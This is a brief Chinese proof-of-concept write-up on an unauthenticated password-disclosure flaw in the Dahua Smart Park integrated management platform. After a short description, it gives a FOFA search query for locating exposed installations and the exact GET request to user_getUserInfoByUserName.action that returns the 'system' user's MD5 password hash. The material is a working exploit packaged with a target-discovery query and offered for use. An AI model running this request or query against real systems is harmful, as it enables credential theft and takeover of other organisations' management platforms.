 # 大华智慧园区任意密码读取攻击

1.漏洞描述

大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。由于该平台未对接口权限做限制，攻击者可以从`user_getUserInfoByUserName.action`接口获取任意用户密码(MD5格式)

2.搜索语法

```plain
fofa：app="dahua-智慧园区综合管理平台"
```

3.漏洞复现

```plain
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
```

响应包显示如下

![image](https://github.com/hardog123/poc-exp/assets/170905460/92b8cfe8-2957-4587-8b23-275a6e9f014e)
